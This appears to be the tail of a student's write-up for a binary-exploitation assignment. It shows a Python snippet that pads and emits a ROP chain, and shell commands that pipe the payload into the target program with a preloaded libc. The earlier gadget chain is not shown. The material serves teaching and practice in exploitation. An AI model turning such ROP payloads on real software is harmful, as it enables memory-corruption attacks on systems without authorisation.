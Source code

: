 ```python
    rop = b"\x00" * 131 + rop + b"\n"
    sys.stdout.buffer.write(rop)
```

To run, please use:
```bash
$ ./rop-chain-cool.py > rop-chain-cool
$ cat rop-chain-cool - | LD_PRELOAD=./libc.so.6 ./assignment
```

So anyway, my cool stuff obviously isn't very flashy or fancy, but I hope it
demonstrates my knowledge of the binary and ROP chaining. <3

---
